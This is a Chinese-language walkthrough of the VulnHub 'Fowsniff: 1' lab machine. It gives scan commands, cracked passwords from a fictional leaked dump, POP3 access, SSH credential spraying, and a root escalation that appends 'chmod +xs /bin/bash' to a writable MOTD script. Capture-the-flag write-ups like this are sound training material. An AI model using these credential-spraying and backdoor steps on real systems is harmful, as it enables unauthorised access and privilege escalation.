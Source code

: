 # Fowsniff: 1

2024-6-11 https://www.vulnhub.com/entry/fowsniff-1,262/

difficulty: Beginner

## IP

192.168.5.37

## Scan

Open Port -> 22,80,110,143

```
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 903566f4c6d295121be8cddeaa4e0323 (RSA)
|   256 539d236734cf0ad55a9a1174bdfdde71 (ECDSA)
|_  256 a28fdbae9e3dc9e6a9ca03b1d71b6683 (ED25519)
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Fowsniff Corp - Delivering Solutions
110/tcp open  pop3    Dovecot pop3d
|_pop3-capabilities: SASL(PLAIN) USER CAPA UIDL RESP-CODES PIPELINING TOP AUTH-RESP-CODE
143/tcp open  imap    Dovecot imapd
|_imap-capabilities: have AUTH=PLAINA0001 more capabilities ID listed SASL-IR ENABLE post-login Pre-login IDLE LITERAL+ OK IMAP4rev1 LOGIN-REFERRALS
```

先看 80 web 服务，使用 gobuster 先进行下扫描：

```
gobuster -t 32 dir -u http://192.168.5.37/ -k -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,txt,html,rar,zip,sql -e

```

http://192.168.5.37/security.txt 显示:

```
Fowsniff Corp got pwn3d by B1gN1nj4!
No one is safe from my 1337 skillz!
```

其他的都没找到信息，主页上说@fowsniffcorp Twitter 被控制了，攻击者可能会通过此媒介发布敏感信息，去 twitter 看看有没有敏感信息发布出来，发现有提示：

```
For more information, see the explanation - https://pastebin.com/378rLnGi

Fowsniff is a fictional company, and all tweets, "passwords", users, hostnames, pastess and "emails" are entirely fictional.

- These materials are is part of a Capture the Flag educational challenge created by @berzerk0 on twitter.
  ALL MATERIAL REGARDING FOWSNIFF IS FICTIONAL.

-All information contained within is invented solely for this purpose and does not correspond
to any real persons or organizations.

- Any similarities to actual people or entities is purely coincidental and occurred accidentally.

Backups of the "password dump" can be found here:
- https://raw.githubusercontent.com/berzerk0/Fowsniff/main/fowsniff.txt
- https://web.archive.org/web/20200920053052/https://pastebin.com/NrAqVeeX
```

发现密码转储在 https://raw.githubusercontent.com/berzerk0/Fowsniff/main/fowsniff.txt 和 https://web.archive.org/web/20200920053052/https://pastebin.com/NrAqVeeX

```
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tegel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e

Fowsniff Corporation Passwords LEAKED!
FOWSNIFF CORP PASSWORD DUMP!

Here are their email passwords dumped from their databases.
They left their pop3 server WIDE OPEN, too!

MD5 is insecure, so you shouldn't have trouble cracking them but I was too lazy haha =P

l8r n00bz!

B1gN1nj4
```

提示了上面的密码是 pop3 的账号和密码，需要先把 md5 进行解密：

```
mauer@fowsniff:mailcall
mustikka@fowsniff:bilbo101
tegel@fowsniff:apples01
baksteen@fowsniff:skyler22
seina@fowsniff:scoobydoo2
stone@fowsniff:
mursten@fowsniff:carp4ever
parede@fowsniff:orlando12
sciana@fowsniff:07011972
```

得到了一些 pop3 账号，尝试登陆看看能否得到可利用信息。

seina@fowsniff:scoobydoo2 能登录，list 有 2 封邮件，retr 看看都是什么内容，

retr 1 得到重要提示: The temporary password for SSH is "S1ck3nBluff+secureshell"

使用这个密码去撞上面得到的几个用户的 ssh，看看哪些用户的默认密码还没有更改，发现一个用户可以登陆：

```
[22][ssh] host: 192.168.5.37   login: baksteen   password: S1ck3nBluff+secureshell
```

使用 ssh 进行登陆，进行系统枚举，sudo 、suid、crontab、getcap 等都没发现可利用点。

发现了一个额外的 cube.sh 文件：/opt/cube/cube.sh

查看文件的内容，和 ssh 登陆时显示的内容一致，应该是在 motd 中引用了这个 ssh，进行验证读取 00-herader 文件：

```
baksteen@fowsniff:/etc/update-motd.d$ cat /etc/update-motd.d/00-header

sh /opt/cube/cube.sh
```

同时 /opt/cube/cube.sh 对 seina 有写权限，可以将后门代码写入到其中，再次登陆 ssh 时，就会触发:

```
echo 'chmod +xs /bin/bash' >> /opt/cube/cube.sh
```

然后再次 ssh 登陆，就能看到/bin/bash 已经有 suid 权限了：

```
-bash-4.3$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1037528 May 16  2017 /bin/bash
-bash-4.3$ /bin/bash -p
bash-4.3# id
uid=1004(baksteen) gid=100(users) euid=0(root) egid=0(root) groups=0(root),100(users),1001(baksteen)
bash-4.3# cd /root
bash-4.3# ls
flag.txt  Maildir
bash-4.3# cat flag.txt
   ___                        _        _      _   _             _
  / __|___ _ _  __ _ _ _ __ _| |_ _  _| |__ _| |_(_)___ _ _  __| |
 | (__/ _ \ ' \/ _` | '_/ _` |  _| || | / _` |  _| / _ \ ' \(_-<_|
  \___\___/_||_\__, |_| \__,_|\__|\_,_|_\__,_|\__|_\___/_||_/__(_)
               |___/

 (_)
  |--------------
  |&&&&&&&&&&&&&&|
  |    R O O T   |
  |    F L A G   |
  |&&&&&&&&&&&&&&|
  |--------------
  |
  |
  |
  |
  |
  |
 ---

Nice work!

This CTF was built with love in every byte by @berzerk0 on Twitter.

Special thanks to psf, @nbulischeck and the whole Fofao Team.
```
